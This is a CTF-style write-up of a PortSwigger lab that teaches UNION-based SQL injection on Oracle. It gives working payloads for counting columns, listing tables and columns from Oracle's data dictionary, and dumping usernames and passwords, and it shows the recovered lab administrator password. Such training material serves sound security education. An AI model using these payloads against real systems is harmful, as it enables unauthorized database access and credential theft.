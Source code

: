 # SQL injection attack, listing the database contents on Oracle

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle), you'll learn: SQL injection attack, listing the database contents on Oracle! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205070955.png)

**In the previous labs, we found an SQL injection vulnerability in the product category filter:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071046.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071100.png)

And we can confirm that **this table has 2 columns.**

**However, when we use the `UNION` clause, it outputs an `500 Internal Server Error` HTTP status:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071326.png)

In the [7th lab](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-7/README.md), we found that **Oracle database must have `FROM` clause in `SELECT` statement.**

**To solve this error, we can use the `dual` in-memory table exploit the SQL injection vulnerbility in the product category filter.**
```sql
' UNION SELECT NULL,NULL FROM dual-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071426.png)

**Next, we need to find which column accepts string data type:**
```sql
' UNION SELECT 'string1','string2' FROM dual-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071514.png)

Both columns are accepting string data type.

**To extract the credentials of the `administrator` user password, I'll:**

- Find all tables that's related to `user`:

```sql
' UNION SELECT NULL,table_name FROM all_tables WHERE table_name LIKE '%user%'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205071908.png)

The table `USERS_GCZDLS` looks sussy, let's list all columns from that table.

- Listing all columns from table `USERS_GCZDLS`:

```sql
' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name='USERS_GCZDLS'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205072106.png)

Table `USERS_GCZDLS` columns: `PASSWORD_BGCXGZ`, `USERNAME_SVWHIB`

Then, we can extract all the data from that table.

- Extracting data from table `USERS_GCZDLS`:

```sql
' UNION SELECT NULL,USERNAME_SVWHIB||':'||PASSWORD_BGCXGZ FROM USERS_GCZDLS-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205072242.png)

Found `administrator` password!

- Username: administrator
- Password: nrywnjxq5v4lj96pzwtn

**Let's login as `administrator`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205072332.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/Pasted%20image%2020221205072343.png)

We're user `administrator`!!

# What we've learned:

1. SQL injection attack, listing the database contents on Oracle